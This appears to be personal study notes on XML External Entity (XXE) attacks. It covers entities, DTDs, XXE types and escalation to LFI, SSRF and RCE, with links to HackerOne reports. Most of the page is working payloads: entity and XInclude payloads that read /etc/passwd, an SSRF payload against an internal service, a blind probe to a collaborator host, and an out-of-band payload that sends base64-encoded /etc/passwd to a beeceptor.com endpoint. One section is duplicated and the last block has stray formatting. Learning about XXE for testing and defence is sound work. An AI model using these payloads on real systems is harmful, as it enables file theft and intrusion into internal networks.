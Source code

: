 **First Lets Talk about XML First:**

- First Line contain the meta data
- second line contain the root element Opening
- Third &Fourth are Childrens of root element
- Fifth line is the closing of root element

**Not allowed:**

- Tag name is case sensitive
- `‘”><`

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/e6ce19c7-1175-4a76-83d9-90dd47a3347a/Untitled.png)

**Entity Let’s say it like a variable** 

**Document Type Definition** (**DTD**) define the **Entities**

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/4e1e9de6-33c5-497f-892f-c80adaf6ae68/Untitled.png)

## **ENTITIES TYPES**

- General
- Parameter
- Predefined

## **FEATURESWE CAN USE**

1. Using System Keyword we can uae External Entity
2. XML accept any valid URI 

## XXE TYPES ****

- Inband
- Error Based
- OOB (Out of Band)

## XXE CAN ESCALATE TO

- LFI
- SSRF
- RCE

## **HACKERONE REPORTS**

- [https://hackerone.com/reports/1267743](https://hackerone.com/reports/1267743)
- [https://hackerone.com/reports/823454](https://hackerone.com/reports/823454)

## **Exploiting XXE to retrieve files**

```xml
<?xml version="1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'>]><root>&test;</root>
------------------------------------------
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [  
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///c:/boot.ini" >]><foo>&xxe;</foo>
```

### Classic XXE Base64 encoded

```xml
<!DOCTYPE test [ <!ENTITY % init SYSTEM "data://text/plain;base64,ZmlsZTovLy9ldGMvcGFzc3dk"> %init; ]><foo/>
```

### XInclude attacks

When you can't modify the **DOCTYPE** element use the **XInclude** to target

```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```

## Exploiting XXE to perform SSRF attacks

XXE can be combined with the [SSRF vulnerability](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery) to target another service on the network.

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY % xxe SYSTEM "http://internal.service/secret_pass.txt" >
]>
<foo>&xxe;</foo>
```

## Exploiting XXE to perform SSRF attacks

XXE can be combined with the [SSRF vulnerability](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery) to target another service on the network.

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY % xxe SYSTEM "http://internal.service/secret_pass.txt" >
]>
<foo>&xxe;</foo>
```

### Basic Blind XXE

The easiest way to test for a blind XXE is to try to load a remote resource such as a Burp Collaborator.

```xml
<?xml version="1.0" ?>
<!DOCTYPE root [
<!ENTITY % ext SYSTEM "http://UNIQUE_ID_FOR_BURP_COLLABORATOR.burpcollaborator.net/x"> %ext;
]>
<r></r>
```

**OR Use Free**

[Beeceptor - Build Rest API in seconds, and showcase to the world](https://beeceptor.com/)

**withcode**

```xml

**<!ENTITY % read SYSTEM "php://filter/convert.base64-encode/resource=file:/ //etc/passwd">
<!ENTITY % test "<!ENTITY &#x25; sendFile SYSTEM 'https://flex@geek.free. beeceptor.com/?x=%read; ">">
%test;
%sendFile;**
```
